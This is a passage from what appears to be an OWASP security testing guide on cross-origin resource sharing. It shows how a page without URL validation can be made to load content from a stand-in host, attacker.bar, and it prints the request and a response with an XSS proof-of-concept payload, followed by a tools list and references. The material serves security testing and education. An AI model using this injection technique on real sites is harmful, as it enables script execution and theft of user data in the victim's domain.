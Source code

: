 
```
HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 18:20:48 GMT
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze17
Vary: Accept-Encoding
Content-Length: 25
Keep-Alive: timeout=15, max=99
Connection: Keep-Alive
Content-Type: text/html

[Response Body]
```


Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the example.foo domain, with a URL like this:
```
 http://example.foo/main.php#http://attacker.bar/file.php
```

Request and response generated by this URL:

```
GET http://attacker.bar/file.php HTTP/1.1
Host: attacker.bar
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/main.php
Origin: http://example.foo
Connection: keep-alive
```

```
HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 19:00:32 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.4-14+deb7u3
Access-Control-Allow-Origin: *
Vary: Accept-Encoding
Content-Length: 92
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```


![File:CORS-example.png](https://www.owasp.org/images/d/d4/CORS-example.png)
<br><br>
##Tools
* **OWASP Zed Attack Proxy (ZAP)** - https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project
ZAP is an easy to use integrated penetration testing tool for finding vulnerabilities in web applications. It is designed to be used by people with a wide range of security experience and as such is ideal for developers and functional testers who are new to penetration testing. ZAP provides automated scanners as well as a set of tools that allow you to find security vulnerabilities manually.

## References
**OWASP Resources**
* OWASP HTML5 Security Cheat Sheet: https://www.owasp.org/index.php/HTML5_Security_Cheat_Sheet


**Whitepapers**<br/>
* **W3C** - CORS W3C Specification: http://www.w3.org/TR/cors/
